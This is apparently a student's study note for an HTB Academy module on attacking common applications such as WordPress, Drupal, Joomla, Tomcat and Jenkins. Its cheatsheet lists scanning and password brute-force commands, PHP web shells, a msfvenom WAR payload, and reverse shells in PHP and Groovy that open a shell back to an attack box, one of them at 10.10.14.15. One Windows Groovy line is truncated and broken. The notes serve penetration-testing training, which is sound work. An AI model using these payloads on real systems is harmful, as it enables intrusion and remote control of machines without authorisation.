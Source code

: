 # Attacking Common Applications

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[HTB Academy]]

![[logo_attacking_common_applications.png]]

Penetration Testers can come across various applications, such as Content Management Systems, custom web applications, internal portals used by developers and sysadmins, and more. It's common to find the same applications across many different environments. While an application may not be vulnerable in one environment, it may be misconfigured or unpatched in the next. It is important as an assessor to have a firm grasp of enumerating and attacking the common applications discussed in this module. This knowledge will help when encountering other types of applications during assessments.

### Cheatsheet

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo vim /etc/hosts`                                        | Opens the `/etc/hosts` with `vim` to start adding hostnames  |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list` | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`) |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>` | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`) |
| `cat web_discovery.xml \| ./aquatone -nmap`                  | Concatenates the contents of nmap scan output (web_discovery.xml) and pipes it (`|`) aquatone (`./aquatone`)and ensures aquatone recognizes the file as nmap scan output (`-nmap`) |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate` | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>` | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`) |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id` | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");` | PHP code that will execute a reverse shell on a Linux-based system |
| `droopescan scan joomla --url http://<domainnameoripaddress>` | Runs `droopescan` against a joomla site located at the specified url |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>` | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`) |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>` | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"` | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt` | `gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`) |
| `auxiliary/scanner/http/tomcat_mgr_login`                    | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`) |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war` | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom` |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>` | Nmap scan useful in enumerating Apache Tomcat and AJP services |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()` | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");` | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);` | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows |
| [reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)              | A simple Splunk package for obtaining revershells on Windows and Linux systems |

### Module Summary

This module covers a variety of techniques needed to discover, footprint, enumerate, and attack various applications commonly encountered during internal and external penetration tests.

In this module, we will cover:

-   Application Discovery & Enumeration
-   Enumerating and attacking common CMS' such as WordPress, Drupal, and Joomla
-   Enumerating and attacking Tomcat and Jenkins
-   Enumerating and attacking infrastructure tools such as Splunk and PRTG Network Monitor
-   Enumerating and attacking customer service management and configuration management tools such as osTicket and GitLab
-   Other commonly seen applications
-   Application hardening core concepts

This module is broken down into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts presented in each section. You can do this in the target host provided in the interactive sections or your virtual machine.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

The module is classified as "medium" and assumes a working knowledge of the Linux command line and operating system fundamentals, networking, information security principles, and web applications.

A firm grasp of the following modules can be considered prerequisites for successful completion of this module:

-   Introduction to Networking
-   Linux Fundamentals
-   Windows Fundamentals
-   Web Requests
-   Introduction to Web Applications
-   Getting Started